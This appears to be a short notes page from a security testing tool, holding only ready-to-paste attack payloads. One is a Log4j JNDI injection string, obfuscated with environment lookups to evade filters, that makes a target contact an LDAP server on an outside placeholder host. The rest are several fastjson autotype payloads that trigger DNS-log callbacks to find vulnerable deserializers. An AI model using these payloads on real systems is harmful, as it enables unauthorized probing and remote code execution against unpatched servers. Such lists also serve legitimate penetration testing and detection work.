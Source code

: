 # Notes

##  This file can not be saved, You need select a folder and create your own notes!

### Log4j
```
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//3s5npu.example.com:/a}
```

### fastjson
```
{"aa":{"@type":"java.net.Inet4Address","val":"dnslog"}}
{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}

{"a":{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}},"b":{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}}
```
